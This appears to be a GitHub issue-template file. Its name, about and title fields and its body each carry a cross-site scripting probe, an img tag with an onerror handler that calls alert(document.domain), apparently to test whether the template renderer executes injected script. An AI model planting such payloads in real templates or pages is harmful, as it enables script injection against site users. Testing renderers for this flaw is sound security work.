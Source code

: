 ```yaml
---
name: "<img src=g onerror=alert(document.domain)>.gif"
about: "!-- <img src=g onerror=alert(document.domain)>--!"
title: "!-- <img src=g onerror=alert(document.domain)>--!"
labels: ''
assignees: ''

---
```


!-- <img src=g onerror=alert(document.domain)>--!
